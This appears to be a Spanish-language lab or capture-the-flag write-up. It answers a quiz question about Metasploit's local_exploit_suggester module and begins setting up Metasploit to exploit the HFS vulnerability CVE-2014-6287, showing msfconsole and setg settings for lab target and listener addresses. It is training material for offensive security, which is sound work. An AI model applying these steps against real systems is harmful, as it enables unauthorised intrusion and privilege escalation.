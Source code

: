 > **Pregunta:**  
> _Which Metasploit reconnaissance module can be used to list possible privilege escalation paths on a compromised system?_

🎯 **Respuesta esperada:**  
`post/multi/recon/local_exploit_suggester`

🔍 **Explicación:**  
Este módulo permite, una vez obtenida una sesión en el sistema víctima, buscar automáticamente posibles vectores de escalada de privilegios analizando el sistema operativo y las configuraciones locales.


## ⚙️ Explotación con Metasploit

Después de haber conseguido explotar la vulnerabilidad de HFS (CVE-2014-6287) con un script Python, ahora repetimos el proceso usando **Metasploit**, como pide la plataforma:

### 1. 🔥 Arrancar Metasploit

```bash
msfconsole
```

Si no tienes la base de datos configurada:

```bash
msfbd run
```

Esto inicia Metasploit junto a PostgreSQL.

![](../img/e115d0c0384c060e1b999b0549118f61.png)

### 2. 🌐 Configuración de variables globales

```bash
setg RHOSTS 10.129.200.101
setg LHOST 10.10.16.35
setg LPORT 4444
```

![](../img/c708352524c9d802f5092a1d640a59af.png)
